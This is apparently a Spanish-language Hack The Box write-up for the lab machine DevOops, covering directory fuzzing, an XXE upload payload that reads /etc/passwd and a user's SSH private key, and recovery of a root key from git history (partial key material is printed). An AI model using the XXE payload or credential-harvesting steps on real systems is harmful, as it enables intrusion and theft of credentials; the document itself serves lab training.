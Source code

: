 ```yaml
---
layout: single
title: DevOops - Hack The Box
excerpt: "Maquina sencillita. XML y encontrar un repo Git con credenciales leakeadas"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-devoops/devops1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - Git
  - XXE
---
```



# 10.10.10.91 - DevOops
![](/assets/images/htb-devoops/devops1.png)

-----------------------
# Part 1: Enumeración

PUertos abiertos 22(ssh), 5000
![](/assets/images/htb-devoops/devops2.PNG)


```console
└─$ curl -s http://10.10.10.91:5000
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.
TODO: replace this with the proper feed from the dev.solita.fi backend.
[/feed]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ/'
000000347:   200        0 L      39 W       347 Ch      "upload"                                             
000000112:   200        1815 L   24122 W    517022 Ch   "feed"
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ.php'
# Nada
└─$ wfuzz -c --hw=31 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.91:5000" -u http://10.10.10.91:5000/ -t 100
# Tampoco
```

**/feed** -> nos muestra la misma foto que salia en el puerto 5000

-----------------------
# Part 2: XXE

En **/uploads** nos piden un xml con una estrcutura muy concreta:

![](/assets/images/htb-devoops/devops3.PNG)

```
<?xml version="1.0" encoding="UTF-8"?>
<elements>
    <Author>William Gibson</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
```
PROCESSED BLOGPOST: Author: William Gibson Subject: Cyberpunk Content: Neuromante 
URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```
Esto nos leakea el lugar donde se sube y una ruta/usuario del sistema "roosa"

Si subimos un XML "muy especial" (inyeccion XXE)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
Conclusión: Usarios -> root git y roosa

Como sabemos que existe el usuario roosa, podemos pedir su llave ```/home/roosa/.ssh/id_rsa```

![](/assets/images/htb-devoops/devops4.PNG)

```console
└─$ ssh -i id_rsa roosa@10.10.10.91
```
-----------------------
# Part 3: En el sistema
```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```
- Archivos que llaman la atencion: /home/roosa/deploy/src/app.py~ /home/roosa/service.sh 
La "~" significa backup, con diff vemos las diferencias...
```console
roosa@devoops:/tmp$ diff <(cat /home/roosa/deploy/src/app.py~) <(cat /home/roosa/deploy/src/app.py)
<   run_gunicorn_app("0.0.0.0", 5000, True, )
>   run_gunicorn_app("0.0.0.0", 5000, True, None)
```
En la carpeta home de esta persona hay un script de bash.

```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```

En esa carpeta hay un script.sh entre otras cosas:
```bash
roosa@devoops:~/work/blogfeed$ cat run-gunicorn.sh
#!/bin/sh

export FLASK_APP=feed.py
export WERKZEUG_DEBUG_PIN=151237652
gunicorn -w 10 -b 0.0.0.0:5000 --log-file feed.log --log-level DEBUG --access-logfile access.log feed:app
```
Si buscamos más en esa carpeta... Encontramos un repositorio.
```console
roosa@devoops:~/work/blogfeed$ ls -la
drwxrwx--- 8 roosa roosa 4096 Mar 26  2021 .git
...
```

-----------------------
# Part 4: Leak

SIempre que nos topemos con un git, hay que ver antiguas versiones del proyecto a ver si hay cosas criticas que hayan quitado...
```console
roosa@devoops:~/work/blogfeed/.git$ git log --oneline
7ff507d Use Base64 for pickle feed loading
26ae6c8 Set PIN to make debugging faster as it will no longer change every time the application code is chang
ed. Remember to remove before production use.
cec54d8 Debug support added to make development more agile.
ca3e768 Blogfeed app, initial version.
dfebfdf Gunicorn startup script
33e87c3 reverted accidental commit with proper key
d387abf add key for feed integration from tnerprise backend
1422e5a Initial commit

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d 26ae6c8
# Sale esta ruta /debugconsole pero no aparece si la busco en el navegador lo mismo con /newpost

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d d387abf
# a/resources/integration/authcredentials.key
 -----BEGIN RSA PRIVATE KEY-----
-MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
-ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
+vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
```
Han sustituido el contenido de una llave privada por otra. Dicha llave existe: 
```console
roosa@devoops:~/work/blogfeed/resources/integration$ cat authcredentials.key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
...
roosa@devoops:~/work/blogfeed/resources/integration$ cp authcredentials.key /tmp/
```
La llave esta es la que han cambiado, si la cambio por la nueva... (quitando los "+" claro)
```
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
...
```
Podemos acceder como root
```console
roosa@devoops:/tmp$ ssh -i id_rsa root@localhost
root@devoops:~#
```